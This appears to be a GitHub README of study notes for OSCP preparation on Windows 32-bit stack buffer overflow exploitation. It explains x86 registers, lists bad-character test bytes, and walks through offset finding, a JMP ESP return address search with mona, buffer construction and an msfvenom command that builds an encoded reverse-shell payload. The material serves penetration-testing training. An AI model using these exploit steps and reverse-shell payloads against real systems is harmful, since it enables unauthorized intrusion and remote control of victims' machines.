 # Win32-Buffer-Overflow
 Notes and scripts for a basic windows 32-bit buffer overflow exploit development. Aimed for OSCP preparation.

# Introduction

## First some basics!
The x86 architecture does contain 8 general registers that are used to store data and then can address that point to other positions in the memory.

* EBP (base pointer)
* ESP (stack pointer)
* EAX (accumulator)
* EBX (base)
* ECX (counter)
* EDX (data)
* EDI (destination index)
* ESI (source index)

**EIP**: Extended Instruction Pointer. This is a read-only register and does contain the address of the next instruction to be executed (tells the CPU what to do next).
**ESP**: Extended Stack Pointer. Points to the top of the stack (at any time) at the lower memory location.
**EBP**: Extended Base Stack Pointer. Points to higher address (last item) at the bottom of the stack.
* * *


## Bad Characters
* Common bad chars

1. 0x00     NULL (\0)
2. 0x09     Tab (\t)
3. 0x0a     Line Feed (\n)
4. 0x0d     Carriage Return (\r)
5. 0xff     Form Feed (\f)


* Input for testing bad chars

1. "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
2. "\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e"
3. "\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d"
4. "\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c"
5. "\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b"
6. "\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
7. "\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69"
8. "\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78"
9. "\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87"
10. "\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96"
11. "\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5"
12. "\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4"
13. "\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
14. "\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2"
15. "\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
16. "\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
17. "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
* * *

**Generate a list of bad characters in bash:**
`for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"`

**Generate a list of bad characters in python:**
`'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])`

# tl;dr

**Steps:**
- [ ] Find offset
- [ ] Ensure control over EIP at found offset (4 B’s)
- [ ] Find bad characters
- [ ] Find return address (JMP ESP)
- [ ] Ensure EIP overwrite (Breakpoint - F2 - at return address )
- [ ] Ensure buffer length for shellcode is good enough
- [ ] Get a shell

# Global Steps

*Note: These steps are a reminder of the global Windows buffer overflow and are not intended to be a manual :)*

**Step 1**: fuzz till crash and note EIP is overwritten by A's (x41).

**Step 2**: use pattern_create.rb to generate unique string and send it to target
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`

**Step 3**: identify 4 bytes that overwrite EIP (this is in HEX)

**Step 4**: use pattern_offset.rb to calculate the offset of these specific 4 bytes
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438`

**Step 5**: send new buffer string to check if we can control the EIP register, since it should be written over with B's. Add to exploit and notice the result of the ESP and EIP registers:
`buffer = "A" * 2606 + "B" * 4 + "C" * 90`

**Step 6**: check if more space within buffer is available (increase buffer length from 2700 to 3500 bytes and see if this results in a larger buffer space for our shellcode). Fire up “morespace.py” -> right click ESP -> follow in dump. Add to exploit and check for C's:
`buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)`

**Step 7**: check for bad chars (0x00 to 0xff). Paste all these chars within buffer and check where ESP register dump is truncated (p. 161). Right click ESP and follow in dump to see.
`Notice skipped chars!`

**Step 8**: if we can't jump directly to our buffer, we need to find a reliable address in memory that contains an instruction such as JMP ESP. We could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump. This would be a reliable indirect way to reacht the memory indicated by ESP register. mona.py can help identify modules in memory that we can search for return address (no DEP and ASLR should be present and high memory range that doesn't contain bad chars)
`!mona modules`
*Check if not being affected by any memory protection schemes (Rebase, SafeSEH, ASLR, NXCompat) and note the specific DLL (right column).*

**Step 9**: JMP ESP equivalent = opcode.
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```
*Note result as: "\xff\xe4"*

**Step 10**: use mona to find the JMP ESP memory address within the DLL found in step 8. Use one which does not contain any bad chars.
`!mona find -s "\xff\xe4" -m <dllname>.dll`

**Step 11**: pause Immunity Debugger and follow the address (black arrow pointing to right: "Expression to follow"). Note if the JMP ESP is found (pane left above).

**Step 12**: set a breakpoint to check if we can reach the JMP ESP.
*left upper pane -> right click -> go to expression
left upper pane -> right click -> breakpoint -> toggle (F2)
play and do the following:
Add to PoC (the memory address is the one we found in step 10, noted Little Endian):*
`buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390`
*Run PoC and check if breakpoint is hit (message at the bottom of Immunity Debugger).*

**Step 13**: generate reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`

**Step 14**: add the reverse shell code to the exploit and change to:
`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`
*Increase NOP slide if needed*

* * *
